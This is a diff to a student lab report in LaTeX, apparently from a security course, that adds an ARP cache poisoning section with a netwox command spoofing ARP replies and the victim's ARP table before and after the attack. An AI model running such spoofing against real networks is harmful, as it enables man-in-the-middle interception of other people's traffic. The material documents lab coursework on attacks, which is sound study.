

Before and after one commit to MyMEng/SS, a LaTeX document (report/reportB.tex): part of page 2 of 4 before the commit and two parts of pages 2 and 3 of 4 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
Report ARP

```diff
--- a/report/reportB.tex
+++ b/report/reportB.tex
@@ -91,6 +91,31 @@ In each subtask we explain the cause of a vulnerability, show how to perform a p
 \end{center}
 
 \section{ARP cache poisoning}
+\begin{lstlisting}
+# Man in the middle example
+#
+# VICTIM
+# MAC: 08:00:27:A6:EB:87
+#   IP: IP: 192.168.0.102
+
+# Some other node
+#   MAC: 08:00:27:93:07:7e
+# IP: 192.168.0.103
+
+# ATTACKER (Man in the middle)
+# MAC: 08:00:27:ee:0d:0f
+#   IP: IP: 192.168.101
+sudo netwox 33 -b 08:00:27:A6:EB:87 -g 192.168.0.103 -h 08:00:27:A6:EB:86 -i 192.168.0.101
+
+
+# Before attack
+seed@victim: arp-a
+(192.168.0.103) at 08:00:27:93:07:7e
+
+# After attack
+seed@victim: arp-a
+(192.168.0.103) at 08:00:27:ee:0d:0f
+\end{lstlisting}
 
 \section{Conclusions}
 Attacks presented here show how a user can make harm to the system or gain \texttt{root} privileges by exploiting vulnerabilities in: \texttt{C} string formatting, \texttt{chroot} command/system call, and \texttt{C} buffer overflow.
```
